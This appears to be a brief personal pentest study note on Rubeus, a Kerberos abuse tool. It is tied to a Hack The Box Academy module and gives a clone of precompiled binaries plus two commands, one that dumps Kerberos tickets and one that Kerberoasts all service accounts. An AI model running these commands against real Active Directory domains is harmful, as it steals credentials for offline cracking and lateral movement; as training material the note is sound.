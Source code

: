 rubeus
###########

Date: 2024-11-25 19:35

Status:

Description
***********

Rubeus is a C# tool built for Kerberos Abuse.

Installation 
****************

.. code-block:: bash

   git clone https://github.com/szalek/Ghostpack-CompiledBinaries.git 

Dumping tickets
********************

Example 1:

.. code-block:: console

   Rubeus.exe dump /nowrap

Must run as local administrator 

Example 2: Kerberoast all SPN accounts 

.. code-block:: powershell

   ./Rubeus.exe kerberoast /nowrap

   
References
*************
https://academy.hackthebox.com/module/147/section/1639s
